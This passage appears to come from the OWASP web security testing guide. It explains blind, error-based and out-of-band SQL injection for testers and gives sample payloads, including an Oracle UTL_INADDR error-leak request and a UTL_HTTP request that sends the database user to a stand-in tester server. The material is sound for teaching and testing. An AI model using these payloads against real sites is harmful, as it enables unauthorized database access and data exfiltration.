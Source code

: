`SELECT field1, field2, field3 FROM Users WHERE Id='1' OR LENGTH(username)=N AND '1' = '1'`

The query returns either true or false. If we obtain true, then we have completed the inference and, therefore, we know the value of the parameter. If we obtain false, this means that the null character is present in the value of the parameter, and we must continue to analyze the next parameter until we find another null value.

The blind SQL injection attack needs a high volume of queries. The tester may need an automatic tool to exploit the vulnerability.

#### Error Based Exploitation Technique

An Error based exploitation technique is useful when the tester for some reason can’t exploit the SQL injection vulnerability using other techniques such as UNION. The Error-based technique consists of forcing the database to perform some operation in which the result will be an error. The point here is to try to extract some data from the database and show it in the error message. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section).

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script that executes the query above:

`http://www.example.com/product.php?id=10`

The malicious request would be (e.g. Oracle 10g):

`http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--`

In this example, the tester is concatenating the value 10 with the result of the function `UTL_INADDR.GET_HOST_NAME`. This Oracle function will try to return the hostname of the parameter passed to it, which is another query, the name of the user. When the database looks for a hostname with the user database name, it will fail and return an error message like:

`ORA-292257: host SCOTT unknown`

Then the tester can manipulate the parameter passed to the GET_HOST_NAME() function and the result will be shown in the error message.

#### Out-of-Band Exploitation Technique

This technique is very useful when the tester finds a [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection) situation, in which nothing is known about the outcome of an operation. The technique consists of the use of DBMS functions to perform an out-of-band connection and deliver the results of the injected query as part of the request to the tester’s server. Like the error-based techniques, each DBMS has its functions. Check for specific DBMS sections.

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script that executes the query above:

`http://www.example.com/product.php?id=10`

The malicious request would be:

`http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--`

